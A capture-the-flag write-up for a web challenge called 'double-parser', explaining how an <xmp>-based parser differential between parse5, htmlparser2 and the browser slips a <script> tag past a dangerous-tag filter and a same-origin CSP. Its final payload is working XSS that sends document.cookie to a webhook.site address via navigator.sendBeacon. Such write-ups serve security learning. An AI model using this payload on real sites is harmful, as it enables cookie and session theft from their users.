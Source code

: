 # double-parser&emsp;<sub><sup>Web, 221 points</sup></sub>

_Writeup by [@bluepichu](https://github.com/bluepichu)_

The service implements an HTML preview tool though does the following validation before rendering the HTML:

1. It must be an ASCII string of length at most 1024.
2. It will get parsed with cheerio with parse5, and must not be detected as containing any "dangerous tags".
3. It will get serialized and parsed again with cheerio with htmlparser2, and must again not be detected as containing any "dangerous tags".
4. It will then finally be served to the user as an HTML page, with the CSP `script-src: 'self'`.

The "dangerous tags" are anything that might result in code execution or parsing issues: `script`, `noscript`, `iframe`, `frame`, `object`, `embed`, `template`, `meta`, `svg`, and `math`.

The problem sounds like it's asking for parser differentials between parse5, htmlparser2, and the browser, so that's where we focused most of our energy.  We pretty quickly stumbled across [this GitHub issue](https://github.com/fb55/htmlparser2/issues/1789), which nodes that htmlparser2 does not handle `<xmp>` tags correctly.  This tag is special in that its content should not be parsed, and all content until the closing `</xmp>` tag should be treated as text.  Since htmlparser2 does not understand this tag, it means that we can trick it into improperly parsing its contents as HTML, possibly containing other tags, to get a differential between it, parse5, and the browser.

After playing around with this for a while, 5w1Min and I came up with the following payload:

```html
<div><xmp></div><style></xmp><!--</style><xmp><style></xmp><script src='somepathhere'></script>-->
```

parse5 will properly parse this as:

```
<div>
	<xmp>
		</div><style>
	</xmp>
	<!--
		</style><xmp><style></xmp><script src='somepathhere'></script>
	-->
</div> <!-- * -->
```

In an effort to normalize its output, it will add the missing `</div>` and the end, marked with the `<!-- * -->`.  The only tags it sees are `<div>` and `<xmp>`, so it does not fail the dangerous tags checks.  It will also add `<html>`, `<head>`, and `<body>` tags around the content, though these are not relevant to how it will get parsed downstream, so I will omit them.  Excluding those extra wrapping tags, we end up with the following output:

htmlparser2 will receive this as input and will parse it as:

```
<div>
	<xmp>
	</xmp> <!-- * -->
</div>
<style>
	</xmp><!--
</style>
<xmp>
	<style>
		</xmp><script src='somepathhere'></script>--></div>
	</style> <!-- * -->
</xmp> <!-- * -->
```

As before, the lines marked with `<!-- * -->` are added by htmlparser2 to normalize its output.  Note that it tries to close the first `<xmp>` tag when it sees the `</div>` closing tag since it doesn't understand that it should be treating the `</div>` as text rather than more markup, and it wants to close the inner element since its containing element is being closed.  The only tags it sees are `<div>`, `<xmp>`, and `<style>`, so it does not fail the dangerous tags checks.

Finally, the browser will receive this as input and will parse it as:

```
<div>
	<xmp></xmp>
</div>
<style>
	</xmp><!--
</style>
<xmp>
	<style>
</xmp>
<script src='somepathhere'></script>
-->
</div>
</style>
</xmp>
```

This results in the `<script>` tag getting executed.

We got stuck here for a while because we couldn't figure out how to make a valid JS file get returned by the server, since the response would always start with `<`, which is never valid JS.  We called it a night, but while we were gone, Ming figured out that the browser will also allow `<!--` to act as a JS comment, leading to the final payload:

```
<div><xmp></div><style></xmp><!--</style><xmp><style></xmp><script src='/?html=%3C%21--+%0Anavigator.sendBeacon%28%27https%3A%2F%2Fwebhook.site%2Fb13f3caa-9c58-488f-b906-c2436241fa2a%27%2Cdocument.cookie%29%2F%2F --%3E'></script>-->
```
